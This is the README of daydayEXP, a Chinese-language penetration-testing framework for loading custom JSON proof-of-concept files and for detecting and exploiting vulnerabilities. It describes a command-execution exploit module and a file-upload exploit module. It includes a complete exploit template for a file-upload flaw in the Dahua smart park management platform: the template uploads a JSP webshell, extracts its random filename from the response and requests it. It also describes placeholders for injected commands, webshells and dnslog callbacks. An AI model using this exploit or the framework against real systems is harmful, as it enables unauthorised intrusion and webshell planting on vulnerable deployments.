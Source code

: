  <h1 align="center">daydayEXP</h1>
<h1 align="center">
	
## 项目简介：
受nuclei的设计思路影响，乱写的一款支持加载自定义poc文件的、可扩展的的渗透测试框架。项目反响还不错的话还会考虑继续更新....
  
### 使用：

执行命令或用bat批处理脚本打开（直接打开会有中文乱码等问题，并确保poc文件在当前目录下）

食用建议：建议开启代理配合burp食用

```
java -jar -Dfile.encoding=UTF-8 dadayExp-0.1-jar-with-dependencies.jar
```

#### 漏洞检测模块

选择一级列表内容可对所有该标签下的漏洞都进行检测，为多进程，默认线程为5。选择二级则对单个漏洞扫描。（因为多线程用的是继承Callable类，可能界面效果会不太好...）

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/b097a76a-7b79-49cb-ae46-b26c7549b5f5)

dnslog：在config.json中配置好dnslog api，面板中设置好dns地址即可食用。应用该功能可减少命令执行无回显或POC返回包特征值不明确导致的误报、漏报。（暂只支持ceye api）

下方例子中就可以看出，是否开启该模块会导致检测结果会有较大出入
![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/1c2c08b6-06b2-4f10-bb37-bd48793f8709)
![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/7face77c-f06a-4574-a189-8b112f219fff)



#### 漏洞利用模块
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成场景

`(命令执行类)`

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/b13e743f-ff0c-415a-baf3-0bdf1f3a871e)



`(文件上传类)`

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP-readme/assets/56790427/2127d444-46f3-461d-ac58-08807ed800ee)



`(反序列化类)`

开发中~~~~也没有想到较好的设计思路...
可以暂时用反序列化打内存马的poc直接当作文件上传类使用。



### POC编写

json文件中除了基本的name、tag等还有poc和exp两个模块(目前exp模块只支持type为upload或exec，如遇到其他类型漏洞，如：反序列化、未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)

对照其他poc的json文件，应该就能看懂编写规则。

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec、sql等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据
	header:
	Pattern：匹配返回包存在的特征值，通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		Pattern：匹配返回包的内容（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
  "name":"大华智慧园区管理平台文件上传",          //漏洞名称
  "tag":"dahua",							//漏洞标签（需要正确填写，否则影响POC文件正确加载）	
  "type":"upload",							//漏洞类型（需要正确填写，否则影响EXP模块正常使用）
  "poc": {									//根据模板编写，header头可自行添加修改
    "pocGet": "/publishing/publishing/material/file/video",			
    "pocPost": "id=1",												
    "header": {
      "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
      "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
      "User-Agent": "Mozilla/5.0 (Linux;"
    },
    "Pattern": "(上传文件为空，请重新上传)"		//存在漏洞时返回包存在的关键字（正则表达式必须用（）包含）
  },
  "exp": {									//按step1、step2...先后顺序发包
    "step1": {
      "expGet": "/publishing/publishing/material/file/video",
      "expPost": "------WebKitFormBoundaryCJEleSRxsqS0lAFv\r\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{webshell}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "([0-9]*\\.jsp)"			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称，如无需匹配返回包则用（）。注意：正则表达式必须用（）包含。
    },
    "step2": {
      "expGet": "/publishingImg/VIDEO/{shellPath}",			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "()"
    }
  }
}
```

占位符：

```
{仅poc内可用}
{dnslog}:配置好dnslog平台api即可食用。一般应用于命令执行无回显的情况，减少误报率。

{仅exp内可用}
{command}:命令执行
{shellPath}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{webshell}:需要上传的文件上传内容

{poc、exp内均可使用}
{random}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{url}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码


如：{webshell:Base64Encode:n}，{command:UrlEncode:3}其中n表示编码次数。（如泛微browser注入漏洞可能会用到{command:UrlEncode:3}，其他一般情况编码一次即可）

poc文件夹
![1695212448172](https://github.com/bcvgh/daydayEXP/assets/56790427/d6bf2aec-d0aa-4f1c-89d8-b76550b854e3)



```

